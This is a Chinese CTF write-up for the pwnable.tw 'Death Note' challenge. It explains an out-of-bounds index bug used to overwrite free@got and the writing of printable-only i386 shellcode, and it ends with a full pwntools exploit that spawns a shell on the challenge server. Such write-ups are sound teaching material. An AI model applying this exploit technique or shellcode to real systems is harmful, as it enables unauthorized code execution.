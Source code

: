 ```yaml
---
title: Death Note
categories:
- pwnable.tw
---
```

# pwnable.tw->Death Note

## 前言

又是花了两天+做出来的题，所幸这次没看别人的writeup，师姐提示了一下，昨晚肝出来的时候有种打了两天加时最后绝杀的感觉。这基本是纯考alphanumeric shellcode的题，动手看和写很重要

## 程序逻辑

程序有三个功能，Add、Show和Delete。其中Add、Delete和Show都没有对Index检查，会造成越界读写，范围是比Note_addr低的地址

![main](./1.jpg)

Add可以被用来覆写got表或者plt表

![add](./2.jpg)

Show可以被用来泄露函数地址，进而得到Libc地址，这个题没有给Libc，可以考虑用DynELF或者Libcsearcher，这个后面再分析

![show](./3.jpg)

del同样没有检查index，可以把任意地址的内容作为一个chunk释放

![del](./4.jpg)

## 漏洞利用

开始考虑把libc版本猜出来，DynELF要求的是泄露任意地址的值，但是我们这里的Show是%s输出，并不满足其要求，对于Libcsearcher，我尝试使用read和printf和free的地址做泄露，出来的地址算出来的libc版本没有交集，不太明白这是怎么做到的，不过这条路似乎不通了。

![addr](./5.jpg)

![addr2](./6.jpg)

另一条路出现在Gdb调试的时候，发现heap，bss后面的权限都是rwxp，可读可写可执行，我们可以根据Index的问题在某个函数比如free的got表上malloc一个新的chunk，这个chunk的内容是shellcode，在调用free@got的时候就会去shellcode执行，注意这时候的is_printable限制输入只能使用可见字符，我们可以在[reference](https://nets.ec/Ascii_shellcode)去找下可以用的字符，以及这个更全的[opcode](http://sparksandflames.com/files/x86InstructionChart.html)结合调试写shellcode。

![rwxp](./7.jpg)

### shellcode编写

我们最终的目的是构造system("/bin//sh",0,0)，即eax = 0xb,ebx = binsh_addr，ecx = edx = 0。int 0x80其中eax = 0可以使用
```asm
push 0x30;
pop eax;
xor al,0x30;
```
来完成，为了抬高栈(减小esp从而让之后的寻址偏移大于0x1F)

ebx = esp可以用
```asm
push 0x68732f2f;
push 0x6e69622f;
push esp;
pop ebx;
```
al = 0xb可以按照刚才方法给eax清零之后inc11次
```asm
push 0x30;
pop eax;
xor al,0x30;
inc eax;
...
```

int 0x80可以使用edx作为跳板，开始根据偏移存储text_code地址，之后用xor把int 0x80(0xcd80)写到将要执行的最后一条指令
```asm
xor edx,[ebx+0x30];
xor [edx+0x38],di;
```

由于全程没用ecx，所以ecx一直为0
xor edx,[ebx+0x30];将edx清零，之后int 0x80执行sys_ececv("/bin/sh\x00")

## exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='i386',os='linux',log_level="debug")
context.terminal = ['tmux','split','-h']
debug = 0
elf = ELF('./death_note')
note_addr = 0x0804a060

if debug:
    p = process('./death_note')
    gdb.attach(p)
else:
    p = remote('chall.pwnable.tw',10201)

def AddNote(index,name):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Index :')
    p.sendline(str(index))
    p.recvuntil('Name :')
    p.send(name)

def ShowNote(index):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index :')
    p.sendline(str(index))

def leak(address):
    index = (address - 0x0804a060) / 4
    ShowNote(index)
    p.recvuntil('Name : ')
    data = u32(p.recv(4))
    return data


def DeleteNote(index):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Index :')
    p.sendline(str(index))

def Exit():
    p.recvuntil('Your choice :')
    p.sendline('4')

def Index(address):
    return (address-note_addr) / 4

def exp():
    #leak libc
    free_got = 0x0804A014
    shellcode = asm('push 0x30;pop eax;xor al, 0x30;push eax;')
    shellcode += asm('pusha')
    shellcode += asm('push 0x68732f2f;push 0x6e69622f;')
    shellcode += asm('push esp;pop ebx;')
    shellcode += asm('dec eax;xor ax,0x4f65;xor ax,0x3057;')
    shellcode += asm('push eax;pop edi;')
    shellcode += asm('push 0x30;pop eax;xor al,0x30;')
    for i in range(11):
        shellcode += asm('inc eax;')
    shellcode += asm('xor edx,[ebx+0x30];')
    shellcode += asm('xor [edx+0x38],di;')
    shellcode += asm('xor edx,[ebx+0x30];')
    #shellcode += asm('inc eax;dec eax;inc eax;dec eax;')#junk
    #shellcode += asm('push 0x30;pop eax;xor al,0x30;push eax;inc eax;')
    #shellcode += asm('pop ebx;')
    print len(shellcode)
    AddNote(Index(free_got),shellcode+'\n')
    DeleteNote(-19)
    p.interactive()

exp()

```
